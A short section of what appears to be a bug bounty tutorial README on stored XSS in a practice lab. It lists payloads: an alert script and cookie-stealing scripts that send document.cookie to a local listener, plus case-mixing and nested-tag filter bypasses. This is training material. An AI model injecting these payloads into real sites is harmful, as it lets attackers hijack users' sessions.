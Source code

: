 # bug-bounty-tutorial
bug bounty tutorial

## 18.XSS-store

### clear send to burp suite repeater

### low in name & message
```
python3 -m http.server 3000
<script>alert("XSS");</script>
```
### change textarea size
```
<script>window.location="http://127.0.0.1:3000/?cookie="+document.cookie</script>
```
### medium
### change input size
```
<ScRipT>window.location="http://127.0.0.1:3000/?cookie="+document.cookie</script>
<scr<script>ipt>window.location="http://127.0.0.1:3000/?cookie="+document.cookie</script>
```
